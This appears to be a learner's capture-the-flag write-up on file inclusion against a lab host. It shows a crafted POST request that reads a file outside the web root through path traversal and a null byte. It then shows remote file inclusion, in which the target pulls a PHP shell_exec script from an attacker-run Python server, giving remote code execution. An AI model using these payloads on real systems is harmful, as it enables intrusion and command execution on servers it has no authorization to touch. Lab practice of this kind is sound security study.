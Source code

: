 # Fileinclusion

## Challange 3

[Hint#1] Not everything is filtered! 
[Hint #2] The website uses $_REQUESTS to accept HTTP requests. Do research to understand it and what it accepts!

-> Find out whats not filterd
-> Find out how to properly pass something to $_REQUESTS function

The site takes Post requests so I craft a POST Request with Burp to avoid the automatic .php I use a nullbyte


POST /challenges///////chall3.php HTTP/1.1
Host: 10.10.56.37
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 29

file=../../../../etc/flag3%00

## Gain RCA

Gain RCE in Lab #Playground /playground.php with RFI to execute the hostname command. What is the output?

From what I've learnd so far, I gather, that I need to host my own php script and invoce the hostname command.

So I creat a PHP script, stealing code form the Internet because I don't know PHP. "hostname" is a linux command,
therefor the script needs to invoce a system comand through php. This can be done with shell_exec

https://www.php.net/manual/de/function.shell-exec.php

If I understand it correctly the script should be very simply

Now I just need to host a server and find a way to include the file. The file is hostet at:

	10.9.222.124:8000/rce.php

Run a server

	python3 -m http.server 8000 

	http://10.10.56.37/playground.php?file=http://10.9.222.124:8000/rce.php

seems to be able to open the file because I get no error messag but no flag. Maybe the script is wrong.

Had everything right the first time. I was just missing part of the script that prints the output to the webpage.

Using above URL I get the Flag!
